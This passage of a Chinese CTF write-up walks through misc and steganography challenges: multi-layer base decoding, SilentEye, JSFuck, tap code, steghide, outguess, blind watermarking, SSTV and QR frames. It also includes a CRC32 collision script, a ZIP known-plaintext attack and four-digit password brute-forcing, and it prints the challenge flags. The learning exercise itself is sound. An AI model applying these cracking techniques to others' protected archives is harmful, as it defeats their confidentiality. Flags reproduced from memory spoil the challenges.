3G6MzYGwFwTsqcb3MWzTdQBTHZWBZ2LUBprZ3P62T2nsbt1R7o6a7PEsXsBvSFvoexeZJEkhW9Wv1VusvpWK1nfWsVHDypW2j3MMEygzSYLmwxKV5kNwWomvXc5ohX2Jgj6bMRnu6JXkasXdbbw3Aw8Pvh6vWwPfTZ4mpkpNU9fDhyNi1bciCZMXeLiCWL67BVupHPobQcFWkpftgLPggB8wgwW 
```

**base58解码**：

```
JZVFSMSZPJMXQTTKMMZVS2TDGVGXUQJTJZKFM3KONJCTEWL2MN4U26SNGJGVIWJQJZ5GWMK2NJNGSTTNKV5E2RDDGNHFOWJTJZCFSNCNPJGTCWTKKF4U42SFGNGXUWJRJZVFSMSNKRNGWTL2IUZFS6TDGVHDEUJ5 
```

**base32解码**：

```
NjY2YzYxNjc3Yjc5MzA3NTVmNjE2YzcyMzM2MTY0Nzk1ZjZiNmUzMDc3NWY3NDY4MzM1ZjQyNjE3MzY1NjY2MTZkMzE2Yzc5N2Q= 
```

**base64解码**：

```
666c61677b7930755f616c72336164795f6b6e30775f7468335f4261736566616d316c797d 
```

**hex解码**：

```
flag{y0u_alr3ady_kn0w_th3_Basefam1ly} 
```

### SlientEye

根据题目直接百度**SlientEye**，下载以后打开图片–>decode：



参数啥的都没动，密码为默认密码，直接Decode，得到一个flag.txt：

```
&#102;&#108;&#97;&#103;&#123;&#110;&#49;&#95;&#98;&#117;&#95;&#106;&#49;&#97;&#110;&#103;&#95;&#119;&#117;&#95;&#100;&#51;&#125; 
```

再去百度搜到一篇博客：[&#x开头的是什么编码?](https://www.cnblogs.com/philipding/p/10153094.html)，~~我点开一看，哦，原来是~~entity code实体编码，~~我啪的一下就~~把flag.txt改为flag.html，~~很快啊，然后是一个左正蹬、一个右鞭腿、一个左刺拳~~打开flag.html获得flag：**flag{n1_bu_j1ang_wu_d3}**

### 编码之王

下载文件打开后一堆社会主义核心价值观，前面提到的：[CTF在线工具](http://ctf.ssleye.com/)就有核心价值观编码，下面放密文，上面是解码内容。

解出来以后看到第一句：`如是我闻:`，–>[与佛论禅](http://www.keyfc.net/bbs/tools/tudoucode.aspx)

再解之后看第一句：`新佛曰：`。–>[新与佛论禅](http://hi.pcmoe.net/buddha.html)

解完以后直接出了一堆由：`[、]、!、+、(、)`组成的符号，还是百度找到了这种编码叫JSfuck，可以直接浏览器控制台console输出获得flag



### jpgsteg

题目即是用到的工具，百度下载软件，使用jphide.exe打开图片`Tap code.jpg`，选择seek功能解密，密码为123456（我蒙的）：



成功解密后获得一个文档，内容如下：

```
... ....
.. ...
.. ...
. .
... ..
. .
..... .....
.. ....
... ...
.. .. 
```

这里我思索了好久，刚开始以为是摩斯密码，但是又对不上号，最后找到了一个名为敲击码的，正好一行中的`.`分成两部分代表坐标



解码得到：`ohhamazing` ，加上括号就是：**flag{ohhamazing}**

事后多看了一眼图片命名：`Tap code.jpg`。这用啥解密不就在脸上写着的~~wosabi \0/~~。。。

### Collision

打开压缩包发现都是加密，但是原始大小都为4，只有CRC不一样：



所以很有可能是四位数据的CRC32碰撞，就去网上找了一个python脚本：[crc32碰撞 ctf python](https://blog.csdn.net/weixin_45396639/article/details/103393759)作者原创的脚本：

```
PYTHON
import string
import threading
import binascii
import sys

def crc(_crc):
    l = 1
    dic = string.printable
    _input = _crc
    _input = "0X" + _input
    for i in dic:
        for n in dic:
            for h in dic:
                for m in dic:
                    s = i + n + h + m
                    s = s.encode()
                    # print(str(binascii.crc32(s)), _input)
                    if hex(binascii.crc32(s)).upper() == _input.upper():
                        print(_crc, ':', s.decode())
                        print(l)
                        sys.exit()  #直接退出，不进行接下来的碰撞了，一般在做题的时候，碰撞不会重复
                    l = l + 1

def crc32():
    print("四字节碰撞!!!")
    num = int(input("你可能需要多个线程同时进行碰撞，请输入线程数："))
    _thread = []
    _args = []
    print("输入参数")
    for i in range(num):
        print(i+1, end=':')
        _args.append(input())
    # print(_args)
    for i in range(num):
        t = threading.Thread(target=crc, args=(_args[i],))
        _thread.append(t) #如果在这里开始线程会出一点小bug，虽然不要紧，但是不好看，不信的话你们自己试试
    # print(_thread)
    for i in range(num):
        _thread[i].start()
    for i in range(num):
        _thread[i].join()
    input()

if __name__ == '__main__':
    crc32() 
```

使用python的多线程，因为是5个文件，开了5个线程，然后分别输入CRC码，压缩文件原来的CRC码为：

```
ff92876d
6c4a558b
77e8fd00
1e59a66e
d1f4eb9a 
```

碰撞以后获得的明文：

```
1on}
32co
llis
flag
{crc 
```

根据flag的结构拼接一下：**flag{crc32collis1on}**

### kaomoji

题目的压缩包解压以后得到一个**flag.zip**压缩包和**secret.txt**，flag.zip中也含有secret.txt，将外面没有加密的secret.txt使用**winrar**压缩（需要和原来的压缩软件一致哒）以后对比flag.zip里的文件发现CRC码相同的：



配合ARCHPR使用明文攻击，获得加密密钥： **[b00df998 5bdbbde6 485fa1f8]**

我在进行明文攻击时虽然没有跑出来压缩包的密码，但是获得了上面的密钥，也是可以解压加密的压缩包的（具体原理不清楚）。解压明文攻击解开获得的压缩包**flag_decrypted.zip**，打开flag.txt是颜文字表情加密，直接复制到浏览器console控制台运行获得flag：flag{kaomoj1_1s_cut3}

### ARCHPR

题目根据提示：**This file was encrypted by me with a four-digit password, try to crack it!**

密码只是用了4位数字加密，可以使用ARCHPR 进行爆破，获得一个flag.png和hint.txt，hint.txt如下：

```
The flag is hidden by a kind of magic called LSB. Try to find it if you can find it. The key is given to you. After decryption, change it to lowercase.

key: .--. .- ... ... .-- --- .-. -.. 
```

提示中提到了使用LSB隐写，密码是一段摩斯密码，摩斯密码解密后得到密文：`password`，使用LSB（[项目地址](https://github.com/livz/cloacked-pixel)）脚本执行：

```
python lsb.py extract flag.png 1.txt password 
```

**1.txt**中就包含了解密以后的flag：**flag{th1s_15_f1agggggg}**

### outguess

看题目找工具，使用outguess参考[隐写工具outguess 的下载安装及使用](https://blog.csdn.net/weixin_43877387/article/details/103123858)，在kali中安装以后执行

```
outguess -r flag.jpg hide.txt 
```

获得hide.txt文件的内容：

```
Qb lbh xabj NRF? Gur xrl vf f3phe1gl, tb naq penpx vg!

Encrypted data: U2FsdGVkX1/nmu9u2Ho1dD9kQWv7L5a6bsUrWxBkVp68txdFL4v/givGGYy7dBU+ 
```

上面一段使用**凯撒密码**移动13位获得：**Do you know AES? The key is s3cur1ty, go and crack it!**

其实这里和别人讨论以后才知道他们使用的是叫ROT13，相应的还搜到了ROT5、ROT13、ROT18、ROT47，百度百科看了以后就是凯撒密码的变种。所以下面一段的密文使用AES进行解密，密码是`s3cur1ty`，获得flag：**flag{y0u_ar3_awes0m3}**

解密网站：https://tool.oschina.net/encrypt

### Whitespace

题目即提示，Whitespace进行一波搜索以后了解到是一种用空白符编程的语言，在压缩包里面摸了好久，在注释里发现空白编码：



这也让我想到自己在网上下工具的压缩包时，网站经常在注释里附上密码，通常都是网站的网址。

在[whitespace](https://vii5ard.github.io/whitespace)网站中粘贴密文点上面的`run`：



解密获得：**password is BlindWaterMark!**

输入解压以后获得两张看着相同的罗翔老师.png图片和一个hint.txt：

```
Do you see any difference between the two pictures?
Get to know its secrets and tell you quietly that you need to know a knowledge called Manchester coding.

上传文档
你看这两幅画有什么不同吗？
了解它的秘密，悄悄地告诉你，你需要知道一门叫做曼彻斯特编码的知识。 
```

根据提示找出图片的不同和曼切斯特编码。图片看着相同但是经过加密，在网上搜索了一波了解到了**盲水印**技术，使用盲水印解密图片，项目地址：https://github.com/chishaxie/BlindWaterMark，执行：

```
python bwn.py decode 2.png 1.png 3.png 
```

获得解密图片：



图片中的内容为：

```
296969a5695
6696a6a9a69
5669595a566
965696666aa
69596a9666a
a6a6569955a
5a66aa69a56
9566a6a6aa6 
```

就百度曼切斯特编码解码，找到一篇博客：[一些CTF编码脚本](https://blog.csdn.net/weixin_30416871/article/details/98566881)，在里面找到了这两段：


心里一顿狂喜，因为都是`2965a`这个几个字符组成的，应该就是找对了。根据博客代码自行修改脚本

```
import sys
s = '296969a56956696a6a9a695669595a566965696666aa69596a9666aa6a6569955a5a66aa69a569566a6a6aa6'  #这是前面图片里的内容

s=bin(int(s,16))
r=""
for i in range(len(s)/2):
    if s[i*2:i*2+2] == '10':
        r += '1'
    else:
        r += '0'
print hex(int(r,2))[2:-1].decode('hex') 
```

执行脚本后获得flag：**flag{ab1de_by_th3_law}**

### Steghide

题目即工具。参考博客[隐写工具Steghide](https://www.jianshu.com/p/c3679f805a0c)，在kali中安装Steghide后执行：

```
steghide.exe extract -sf trump.jpg 
```

会提示`Enter passphrase:`直接回车表示空密码，获得flag.txt，打开以后里面都是由`¿ ¡ .`组成的密文，和**Ook**的另一种编码：**short Ook**类似也是只用`? ! .`组成，把叹号和问号全部替换反过来`¡--->! ¿--->?`，替换之后在线解码：https://www.splitbrain.org/services/ook，获得flag：**flag{y0u_ar3_clev3r}**

### SSTV

题目既是工具。搜索SSTV百度百科：

> 慢扫描电视（Slow-scan television）是业余无线电爱好者的一种主要图片传输方法，慢扫描电视通过无线电传输和接收单色或彩色静态图片。

了解到是一种无线电传递图片的方法，搜到的博客[慢扫描电视 SSTV](https://blog.csdn.net/zkf0100007/article/details/83387790)和B站的视频[慢扫描电视SSTV](https://www.bilibili.com/video/BV1ea4y1J787)，下载MMSSTV软件，把output.wav音频调制麦克风输出，我使用的方法是在声音设置里把立体声混音打开并且设为默认设备，然后电脑里播放的声音就会被录制到。等待图片绘制成功，获得flag：**DMCTF{SSTV,yyds?}**



### SimpleQrcode

下载题目是一个gif图片都是二维码，使用使用stegSovle中的Frame Browser功能，一帧一帧播放，一帧一扫，有几帧图片是少了二维码的上边，有一张是少了右边，可以参考第一张完整的图片，把上面截取拼接上去，扫码后17张图片对应的内容（根据代码行号）：

```
DM
CT
F{
Qr
Co
de
_1
s_
so
_i
nt
er
es
ti
ng
!!
!} 
```

参考下题目标题和flag格式，拼接后获得flag：**DMCTF{QrCode_1s_so_interesting!!!}**